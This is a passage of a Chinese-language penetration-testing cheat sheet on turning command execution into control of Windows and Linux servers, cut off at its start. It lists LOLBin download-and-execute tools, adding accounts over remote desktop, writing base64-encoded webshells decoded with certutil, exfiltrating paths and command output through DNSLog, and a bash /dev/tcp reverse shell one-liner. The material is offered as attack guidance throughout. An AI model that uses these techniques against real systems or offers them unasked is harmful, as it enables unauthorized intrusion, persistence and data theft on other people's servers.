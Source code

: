 (2) 程下载并执行

> 比如命令：powershell、certutil、bitsadmin、regsvr32、mshta

(3) 添加账号

> 如果开放远程连接桌面且权限足够的话直接执行命令添加账号

### 有回显不出网

因为不通外网，主要思路就是写webshell

通过dir命令确认物理路径

通过echo命令写入webshell，因为webshell有特殊符号，需要先base64编码写入，然后用certutil -decode进行解码

### 无回显出网

(1) 远程下载到特殊路径，然后访问该路径

(2) 写webshell

> 确认路径方法:
>
> 利用特殊的文件定位Web路径并将路径写入特殊文件同目录下的txt文件

(3) 利用特殊的文件定位Web路径并将结果发送至DNSLog，当然，可以发送路径，也可以直接执行命令

### 无回显不出网

(1) 确认Web应用物理路径，然后写入webshell

(2) 定位Web特殊文件路径并将路径写入当前目录下的txt文件

## Linux

### 有回显出网

(1) 确认web应用物理路径，然后写webshell

> 执行pwd、ls命令确认web路径
>
> 然后echo命令直接写入webshell
>
> echo webshell的base64编码内容 |base64 -d > web应用目录/shell文件

(2) 反弹shell

    bash -i >& /dev/tcp/ip/port 0>&1

### 有回显不出网

(1) 主要是写webshell

### 不回显出网

(1) 反弹shell

